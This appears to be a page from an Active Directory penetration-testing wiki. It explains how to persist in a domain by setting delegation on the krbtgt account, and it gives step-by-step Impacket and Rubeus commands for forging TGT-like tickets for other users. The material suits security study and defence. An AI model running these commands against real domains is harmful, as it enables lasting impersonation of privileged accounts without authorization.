 ```yaml
---
authors: 'ShutdownRepo, sckdev'
category: ad
---
```


# Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../../movement/builtins/machineaccountquota.md#create-a-computer-account), or do [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. 

Since a TGT is just a Service Ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work (or, see [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../../movement/kerberos/ptt.md) to use the Service-Ticket-that-is-in-fact-a-TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

::: tabs

=== UNIX-like

Every step of this attack can be achieved using one of the following scripts from [Impacket](https://github.com/fortra/impacket) (Python), such as rbcd.py and getST.py.


```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```



=== Windows

Every step of this attack can be achieved using Rubeus and the Set-ADUser command.


```powershell
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
```


:::


## Resources

[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

[https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)


[rbcd.md](../../movement/kerberos/delegations/rbcd.md)

